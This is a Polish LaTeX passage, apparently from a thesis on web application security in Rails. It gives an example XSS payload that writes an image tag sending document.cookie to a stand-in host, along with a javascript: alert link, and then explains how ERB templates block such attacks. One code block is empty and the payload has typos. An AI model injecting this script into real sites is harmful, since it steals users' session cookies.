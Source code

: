Przykładowy atak typu XSS:

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
    <script>
      document.write(
        '<img scr="http:/hacked.site.com/' + document.cookie + '">'
      );
    </script>
    <a href='javascript:alert("Hacked")'>Personal Website</a>
  \end{lstlisting}
\end{code}\\

Dzięki wbudowanemu w Railsy systemowi ERB templates\footnote{System za pomocą, którego kod strony html jest generowany dynamicznie \cite{rails4_way}, \cite{ruby_rails}} mamy doczynienia z dynamicznym tworzeniem kodu HTML, co uniemożliwia większość ataków trgo typu. Wszelkiegorodzaju odnośniki i dane na stronie zapisywane są przy użyciu specjalnej notacji:

\begin{code}
  
\end{code}\\

która zostaje przekonwertowana, do kodu HTML, przez serwer i wysłana przeglądarce internetowej.

\begin{code}
  \begin{lstlisting}[language=HTML, showstringspaces=false]
    <a href="/events">My events</a>
    <a href="/">Events</a>
  \end{lstlisting}
\end{code}\\

